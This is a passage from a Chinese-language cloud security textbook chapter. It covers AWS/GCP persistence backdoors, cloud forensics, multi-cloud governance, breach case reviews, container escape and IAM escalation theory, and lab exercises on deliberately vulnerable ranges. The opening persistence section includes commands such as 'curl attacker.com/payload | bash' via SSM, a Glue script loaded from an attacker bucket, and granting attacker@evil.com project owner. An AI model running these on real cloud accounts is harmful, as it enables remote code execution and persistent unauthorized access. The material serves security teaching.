# 2. 创建Lambda函数作为后门
# 函数定期运行，检查C2服务器是否有新指令
aws lambda create-function \
  --function-name system-health-check \
  --runtime python3.9 \
  --role arn:aws:iam::ACCOUNT:role/lambda-basic-execution \
  --handler index.handler \
  --zip-file fileb://backdoor.zip

# 设置定时触发器
aws events put-rule \
  --name "health-check-schedule" \
  --schedule-expression "rate(1 hour)"
aws lambda add-permission \
  --function-name system-health-check \
  --statement-id scheduled-invoke \
  --principal events.amazonaws.com \
  --source-arn arn:aws:events:REGION:ACCOUNT:rule/health-check-schedule

# 3. 修改EC2 UserData（实例重启时执行）
aws ec2 modify-instance-attribute \
  --instance-id i-xxx \
  --user-data file://malicious-userdata.txt

# 4. 创建Glue ETL作业（很少被监控）
aws glue create-job \
  --name data-sync-job \
  --role GlueServiceRole \
  --command '{"Name":"glueetl","ScriptLocation":"s3://attacker-bucket/script.py"}'

# 5. 利用Systems Manager（SSM）发送命令
aws ssm send-command \
  --instance-ids i-xxx \
  --document-name "AWS-RunShellScript" \
  --parameters commands=["curl attacker.com/payload | bash"]
```

**GCP持久化技术：**

```bash
# 1. 添加SSH密钥到Compute实例
gcloud compute instances add-metadata instance-name \
  --metadata-from-file ssh-keys=attacker_keys.txt \
  --zone us-central1-a

# 2. 创建服务账户密钥
gcloud iam service-accounts keys create compromised-key.json \
  --iam-account=sa@project.iam.gserviceaccount.com

# 3. 部署Cloud Function后门
gcloud functions deploy persistence-backdoor \
  --runtime python39 \
  --trigger-http \
  --allow-unauthenticated \
  --entry-point handle_request

# 4. 修改项目IAM策略
gcloud projects add-iam-policy-binding project-id \
  --member="user:attacker@evil.com" \
  --role="roles/owner"

# 5. 利用Cloud Scheduler（定时任务，很少被监控）
gcloud scheduler jobs create http backdoor-scheduler \
  --schedule="0 */6 * * *" \
  --uri="https://attacker.com/check-in" \
  --http-method=POST
```

### 5.3 云取证与日志分析

云取证与传统数字取证有显著差异。在云环境中，你通常无法获取物理磁盘镜像，而是依赖云平台提供的日志和API。

**AWS取证数据源：**

```bash
# 1. CloudTrail日志（最重要的取证来源）
# 查询特定用户的操作历史
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=Username,AttributeValue=compromised-user \
  --start-time 2024-01-01T00:00:00Z \
  --end-time 2024-01-02T00:00:00Z

# 2. VPC Flow Logs（网络流量日志）
# 分析可疑的网络连接
aws logs filter-log-events \
  --log-group-name vpc-flow-logs \
  --filter-pattern '{ $.dstAddr = "SUSPICIOUS_IP" }'

# 3. S3访问日志
# 识别异常的数据访问模式
aws athena start-query-execution \
  --query-string "
    SELECT requestdatetime, operation, key, httpstatus
    FROM s3_access_logs
    WHERE httpstatus = 200
    AND operation = 'REST.GET.OBJECT'
    AND requestdatetime > '2024-01-01'
    GROUP BY key
    ORDER BY COUNT(*) DESC
    LIMIT 20
  "

# 4. GuardDuty发现
aws guardduty list-findings \
  --detector-id xxx \
  --finding-criteria '{
    "Criterion": {
      "severity": {"Gte": 7}
    }
  }'
```

**云取证的关键挑战：**

| 挑战 | 说明 | 应对策略 |
|------|------|----------|
| 日志保留期有限 | CloudTrail默认90天，VPC Flow Logs可配置但通常较短 | 配置日志长期归档到S3 Glacier |
| 无法获取磁盘镜像 | 无法像传统取证那样获取完整磁盘 | 创建EBS快照进行离线分析 |
| 多账户追踪 | 攻击者可能跨多个账户活动 | 集中化CloudTrail到单一S3桶 |
| Serverless无状态 | Lambda执行后环境销毁 | 依赖CloudWatch Logs和X-Ray追踪 |
| 元数据访问日志缺失 | IMDS访问不记录在CloudTrail中 | 使用VPC Flow Logs和网络监控 |

---

## 六、多云环境安全治理

### 6.1 多云安全挑战

企业使用多个云平台（AWS + Azure、AWS + GCP等）时面临的安全挑战呈指数级增长：



**统一安全治理策略：**

1. **身份联邦**：使用中央身份提供商（如Azure AD、Okta）统一管理所有云平台的身份认证
2. **策略即代码**：使用Terraform Sentinel、OPA/Gatekeeper等工具实现跨云的安全策略一致性
3. **统一监控**：部署跨云SIEM（如Splunk、Elastic Security）聚合所有云平台的安全日志
4. **合规自动化**：使用Cloud Custodian等工具实现跨云的合规策略自动执行

### 6.2 云安全合规框架对照

| 合规要求 | AWS实现 | Azure实现 | GCP实现 |
|----------|---------|-----------|---------|
| 数据加密 | KMS + S3 SSE | Key Vault + Storage加密 | Cloud KMS + CMEK |
| 访问控制 | IAM + SCP | RBAC + Conditional Access | IAM + Organization Policy |
| 审计日志 | CloudTrail | Azure Activity Log | Cloud Audit Logs |
| 网络隔离 | VPC + Security Groups | VNet + NSG | VPC + Firewall Rules |
| 密钥管理 | Secrets Manager | Key Vault | Secret Manager |
| 合规评估 | AWS Config + Security Hub | Azure Policy + Defender | Security Command Center |

---

## 七、真实案例深度复盘

### 7.1 Capital One数据泄露（2019）

**事件概述**：2019年7月，Capital One宣布超过1亿用户的个人信息被泄露。这是当时最大的金融数据泄露事件之一。

**攻击链分析：**

```text
1. 发现SSRF入口
   └─> 攻击者利用Capital One WAF配置中的SSRF漏洞
   └─> WAF将恶意请求转发到内部服务

2. 元数据凭证获取
   └─> 通过SSRF访问AWS IMDS
   └─> 获取EC2实例附加的IAM角色临时凭证
   └─> 角色具有 s3:ListBucket 和 s3:GetObject 权限

3. 数据窃取
   └─> 使用临时凭证枚举S3桶
   └─> 下载了超过700个文件（约30GB数据）
   └─> 包括信用卡申请数据、社保号、银行账户信息

4. 事后发现
   └─> 攻击者在GitHub上炫耀（使用真实姓名的GitHub账号）
   └─> AWS GuardDuty在攻击发生后发出了告警
   └─> Capital One在收到告警后才开始响应
```

**技术教训：**

- IAM角色权限过大：附加给WAF的IAM角色应该被限制在最小范围内
- IMDSv1未禁用：如果启用了IMDSv2，SSRF攻击将无法获取凭证
- 日志监控延迟：GuardDuty告警到响应之间有明显的时间差

### 7.2 Microsoft Storm-0558（2023）

**事件概述**：2023年7月，微软披露中国黑客组织Storm-0558通过获取微软消费者的签名密钥，伪造了Azure AD认证令牌，访问了包括美国政府机构在内的多个组织的邮箱。

**技术细节：**

- 攻击者获取了用于签名消费者Skype/Outlook令牌的密钥
- 该密钥理论上不应能签名企业Azure AD令牌，但Azure AD的验证逻辑存在缺陷
- 攻击者使用该密钥伪造了企业用户的OAuth令牌
- 通过Exchange Online的 `GetAccessTokenForResource` API获取邮箱访问权限

**教训**：密钥管理是云安全的基础。密钥泄露的影响范围取决于验证逻辑的严谨程度。

---

## 八、学习资源与靶场环境

### 8.1 实战靶场

| 靶场 | 平台 | 难度 | 链接 |
|------|------|------|------|
| AWSGoat | AWS | 初-中 | https://github.com/ine-labs/AWSGoat |
| AzureGoat | Azure | 初-中 | https://github.com/ine-labs/AzureGoat |
| GCPGoat | GCP | 初-中 | https://github.com/ine-labs/GCPGoat |
| Kubernetes Goat | K8s | 中-高 | https://github.com/madhuakula/kubernetes-goat |
| CloudGoat | AWS | 中-高 | https://github.com/RhinoSecurityLabs/cloudgoat |
| Terragoat | 多云 | 中 | https://github.com/bridgecrewio/terragoat |
| Sadcloud | AWS | 中 | https://github.com/nccgroup/sadcloud |

### 8.2 专业工具

| 工具 | 用途 | 项目地址 |
|------|------|----------|
| Prowler | AWS/Azure/GCP安全审计 | https://github.com/prowler-cloud/prowler |
| ScoutSuite | 多云安全评估 | https://github.com/nccgroup/ScoutSuite |
| Pacu | AWS渗透测试框架 | https://github.com/RhinoSecurityLabs/pacu |
| CDK | 容器逃逸检测 | https://github.com/cdk-team/CDK |
| kube-hunter | Kubernetes安全扫描 | https://github.com/aquasecurity/kube-hunter |
| Falco | 运行时威胁检测 | https://github.com/falcosecurity/falco |
| Trivy | 漏洞和配置扫描 | https://github.com/aquasecurity/trivy |
| ROADtools | Azure AD分析 | https://github.com/dirkjanm/ROADtools |
| Stormspotter | Azure资源关系可视化 | https://github.com/Azure/Stormspotter |
| MicroBurst | Azure安全评估 | https://github.com/NetSPI/MicroBurst |

### 8.3 认证路径建议



---

## 九、思考题与讨论

### 思考题

**1. AWS IMDSv1和IMDSv2的根本区别是什么？为什么IMDSv2能有效防御SSRF？**

IMDSv1使用简单的GET请求访问元数据服务，任何能发起HTTP请求的应用程序都可以直接获取元数据中的凭证。IMDSv2引入了两步认证机制：首先通过PUT请求（必须携带自定义头 `X-aws-ec2-metadata-token-ttl-seconds`）获取一个临时Token，然后在后续GET请求的 `X-aws-ec2-metadata-token` 头中携带该Token。IMDSv2能防御SSRF的核心原因是：（1）PUT请求在绝大多数SSRF场景中不被代理转发；（2）自定义请求头无法通过URL注入；（3）HTTP跳数限制（默认1跳）阻止了多层代理转发。但IMDSv2并非万能——如果SSRF漏洞允许发送任意HTTP方法，攻击者仍然可以完成两步认证流程。

**2. 列举三种容器逃逸技术并解释其原理。**

（1）**特权容器逃逸**：当容器以 `privileged: true` 运行时，它拥有宿主机的所有Linux capabilities，包括 `SYS_ADMIN`。容器可以直接挂载宿主机的文件系统设备（如 `/dev/sda1`），从而获得宿主机的完整root访问权限。根本原因是特权容器禁用了几乎所有的安全隔离机制。

（2）**Docker Socket挂载逃逸**：当容器内挂载了宿主机的 `/var/run/docker.sock` 时，容器内的进程可以通过Docker API创建新的特权容器并挂载宿主机根目录。根本原因是Docker Socket等同于宿主机上的root权限——控制Docker守护进程就等于控制宿主机。

（3）**Cgroup逃逸（CVE-2022-0492）**：利用Cgroup v1的 `release_agent` 机制。当容器拥有 `CAP_SYS_ADMIN` capability时，可以创建新的cgroup，设置 `notify_on_release` 为1，并将 `release_agent` 设置为要在宿主机上执行的命令。当cgroup中的最后一个进程退出时，内核会以root权限在宿主机命名空间中执行release_agent指定的命令。根本原因是Cgroup子系统的release_agent机制在设计上允许宿主机级别的命令执行。

**3. 在AWS环境中，从低权限IAM用户提升到管理员权限的五条主要路径是什么？**

（1）**PassRole提权**：拥有 `iam:PassRole` 和创建某AWS服务资源（如Lambda、EC2）权限的用户可以将高权限角色传递给服务，在服务上下文中执行高权限操作。

（2）**策略版本操作**：拥有 `iam:CreatePolicyVersion` 权限的用户可以创建新的策略版本并设为默认，添加 `Action: "*"` 的允许规则。

（3）**用户/策略直接操作**：拥有 `iam:CreateUser`、`iam:AttachUserPolicy` 等权限的用户可以创建新用户并附加管理员策略，或直接给现有用户附加高权限策略。

（4）**AssumeRole链**：如果当前角色可以assume其他角色，攻击者可以构建assume链逐步接近高权限角色。跨账户的assume role信任关系尤其危险。

（5）**EC2 UserData注入**：拥有 `ec2:RunInstances` 和 `ec2:ModifyInstanceAttribute` 权限的用户可以创建附加了高权限角色的EC2实例，并通过UserData脚本窃取该角色的临时凭证。

**4. Kubernetes RBAC的工作原理及配置错误利用方法。**

KRBAC通过四个核心资源工作：Role/ClusterRole（定义权限集合）、RoleBinding/ClusterRoleBinding（将权限绑定到主体）。API Server收到请求后，先验证身份（认证），再检查RBAC规则（授权），最后执行准入控制。RBAC配置错误的利用方法包括：（1）检查 `auth can-i --list` 发现意外权限；（2）利用 `secrets` 读取权限获取其他ServiceAccount的Token；（3）利用Pod创建权限部署特权Pod；（4）利用 `clusterrolebinding` 权限给自己绑定 `cluster-admin`；（5）利用Token请求（`serviceaccounts/token`）模拟高权限ServiceAccount。

**5. 云安全共享责任模型在IaaS、PaaS、SaaS模式下的具体内容。**

- **IaaS**（如EC2、Azure VM）：云提供商负责物理安全、虚拟化层安全、网络基础设施。用户负责操作系统补丁、应用安全、数据加密、身份管理、网络安全配置。
- **PaaS**（如Lambda、App Engine）：云提供商额外负责运行时环境、中间件、操作系统安全。用户负责应用代码安全、数据安全、身份管理。
- **SaaS**（如Office 365、Salesforce）：云提供商负责几乎所有技术层面的安全。用户负责数据分类、访问策略、用户管理、合规配置。

核心原则：无论何种模式，**数据安全**和**身份管理**始终是用户的责任。

---

## 十、进阶实验指南

### 实验一：AWSGoat渗透测试全流程

```bash
# 1. 部署AWSGoat
git clone https://github.com/ine-labs/AWSGoat.git
cd AWSGoat
# 按照README配置AWS凭证
terraform init
terraform apply

# 2. 信息收集阶段
# 枚举S3桶
aws s3 ls | grep -i goat
# 枚举IAM用户和角色
aws iam list-users
aws iam list-roles

# 3. 初始访问
# 寻找公开的S3桶，下载源代码
# 分析源代码中的硬编码凭证

# 4. 权限提升
# 使用发现的凭证配置AWS CLI
# 检查当前权限范围
aws sts get-caller-identity
aws iam list-attached-user-policies --user-name compromised-user

# 5. 横向移动
# 利用提权后的权限访问其他服务
# 尝试访问RDS、Lambda等

# 6. 整理发现
# 记录完整的攻击路径和所有发现的安全问题
```

### 实验二：Kubernetes Goat容器逃逸

```bash
# 1. 部署Kubernetes Goat
git clone https://github.com/madhuakula/kubernetes-goat.git
cd kubernetes-goat
bash setup-kubernetes-goat.sh

# 2. 访问靶场环境
bash access-kubernetes-goat.sh

# 3. 完成各个场景
# 场景1：从Pod访问元数据服务
curl http://169.254.169.254/latest/meta-data/

# 场景2：利用ServiceAccount Token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -s --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces

# 场景3：特权容器逃逸
# 按照靶场指引完成逃逸

# 场景4：RBAC提权
# 使用kubectl auth can-i检测权限边界
```

### 实验三：Prowler安全审计

```bash
# 1. 在AWS Free Tier账户上运行Prowler
pip install prowler

# 2. 执行完整审计
prowler aws --output-format html

# 3. 分析报告
# 重点关注 High 和 Critical 级别的发现
# 按照修复建议逐项整改

# 4. 验证修复
# 重新运行Prowler确认问题已修复

# 5. 编写自定义检查
# Prowler支持Python自定义检查
# 参考现有检查的结构编写新规则
```

---

> **深度拓展寄语**：云安全是一个持续演进的领域。本章深度拓展涵盖了从协议级原理到实战攻击链的完整知识体系，但真正的精通来自于持续的实践。建议读者在AWS/Azure/GCP免费账户上反复练习本章的攻击和防御技术，关注最新的云安全漏洞披露和攻击事件，参与Capture The Flag（CTF）云安全题目。记住：在云安全领域，理解"为什么"比知道"怎么做"更重要——只有深入理解了安全机制的设计原理，才能在面对全新场景时做出正确的判断。
